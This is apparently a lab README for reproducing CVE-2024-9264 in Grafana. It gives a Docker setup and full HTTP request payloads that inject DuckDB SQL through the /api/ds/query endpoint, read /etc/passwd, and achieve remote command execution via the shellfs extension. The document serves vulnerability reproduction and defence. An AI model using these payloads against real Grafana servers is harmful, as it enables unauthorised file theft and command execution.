


# Grafana SQL Expressions Remote Code Execution (CVE-2024-9264)

[中文版本(Chinese version)](README.zh-cn.md)

[Grafana](https://grafana.com/) is a multi-platform open source analytics and interactive visualization web application, widely used for monitoring and observability dashboards.

CVE-2024-9264 is a critical vulnerability in Grafana's experimental SQL Expressions feature, affecting versions 11.0.0 through 11.0.5, 11.1.0 through 11.1.6, and 11.2.0 through 11.2.1. This feature allows post-processing of datasource query results using SQL, which is evaluated by the DuckDB engine. Due to insufficient input sanitization, an authenticated attacker with Viewer or higher permissions can inject arbitrary DuckDB SQL queries, leading to arbitrary file read and remote code execution. Although the feature was marked as experimental, a bug in the feature flag implementation caused it to be enabled by default for the API, expanding the attack surface. The vulnerability requires the DuckDB binary to be present in the system PATH of the Grafana process.

References:

- <https://grafana.com/security/security-advisories/cve-2024-9264/>
- <https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/>
- <https://github.com/nollium/CVE-2024-9264>

## Environment Setup

Execute the following command to start Grafana v11.0.0 with DuckDB pre-installed:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to access the Grafana login page. Use the default credentials `admin:admin` to log in.

## Vulnerability Reproduction

The vulnerability exists in the SQL Expressions API endpoint `/api/ds/query`, which can be exploited directly by sending a crafted HTTP request without needing to interact with the dashboard UI. Any user with Viewer or higher permissions can trigger the vulnerability.

Send the following request to read `/etc/passwd` from the server using DuckDB's `read_blob` function:

```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: your-ip:3000
Accept: application/json
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=

{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "__expr__",
        "uid": "__expr__",
        "name": "Expression"
      },
      "type": "sql",
      "expression": "SELECT content FROM read_blob('/etc/passwd')"
    }
  ],
  "from": "1",
  "to": "2"
}
```



On Grafana v11.0.0, remote code execution can be achieved by leveraging DuckDB's `shellfs` community extension. This extension enables executing shell commands through DuckDB's `read_csv` function with Unix pipe syntax. By utilizing multiple SQL expression queries with `refId` references within a single request, the entire exploitation chain — installing the extension, executing a command, and retrieving its output — can be completed in one step. Send the following request to execute the `id` command and retrieve its output:

```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: your-ip:3000
Accept: application/json
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=

{
  "queries": [
    {
      "refId": "A",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT 1;INSTALL shellfs FROM community"
    },
    {
      "refId": "B",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT 1 FROM A ;LOAD shellfs;SELECT * FROM read_csv('id > /tmp/rce_out 2>&1 |', header=false)"
    },
    {
      "refId": "C",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT b.content FROM A AS a, read_blob('/tmp/rce_out') AS b"
    }
  ],
  "from": "1",
  "to": "2"
}
```

Query A installs the `shellfs` extension, query B references A to ensure execution order then loads the extension and runs the `id` command via pipe syntax, and query C reads the command output from the temporary file. The response will contain the output of the `id` command, such as `uid=472(grafana) gid=0(root) groups=0(root)`, confirming that arbitrary command execution has been achieved.


